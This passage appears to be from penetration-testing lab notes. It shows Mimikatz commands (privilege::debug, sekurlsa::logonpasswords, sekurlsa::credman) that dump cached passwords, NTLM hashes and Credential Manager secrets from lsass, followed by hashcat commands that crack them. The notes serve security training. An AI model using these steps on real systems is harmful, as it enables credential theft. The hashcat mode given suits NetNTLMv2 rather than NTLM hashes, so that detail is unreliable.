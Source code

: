 ```
C:\Tools\Mimikatz\mimikatz.exe
```

Before dumping the memory for cashed credentials and hashes, we need to enable the SeDebugPrivilege and check the current permissions for memory access. It can be done by executing `privilege::debug` command as follows,

**Victim(mimikatz)**

```
privilege::debug
```

Once the privileges are given, we can access the memory to dump all cached passwords and hashes from the `lsass.exe` process using `sekurlsa::logonpasswords`. If we try this on the provided VM, it will not work until we fix it in the next section.

**Victim(mimikatz)**

```
sekurlsa::logonpasswords
```

Mimikatz lists a lot of information about accounts and machines. If we check closely in the Primary section for Administrator users, we can see that we have an NTLM hash.&#x20;

Note to get users' hashes, a user (victim) must have logged in to a system, and the user's credentials have been cached.

Grab the NTLM hashes to decrypt

**Kali**

```
hashcat -m 5600 hash.txt /usr/share/wordlists/rockyou.txt --force 
hashcat -m 5600 hash.txt /usr/share/wordlists/rockyou.txt --show
```

### Mimikatz - Credential Manager

**Example**

[credential-harvesting.md](credential-harvesting.md "mention")

Mimikatz is a tool that can dump clear-text passwords stored in the Credential Manager from memory. The steps are similar to those shown in the previous section (Memory dump), but we can specify to show the credentials manager section only this time.

**Victim(cmd)**

```
c:\Tools\Mimikatz\mimikatz.exe
```

**Victim(mimikatz)**

```
privilege::debug
sekurlsa::credman
```
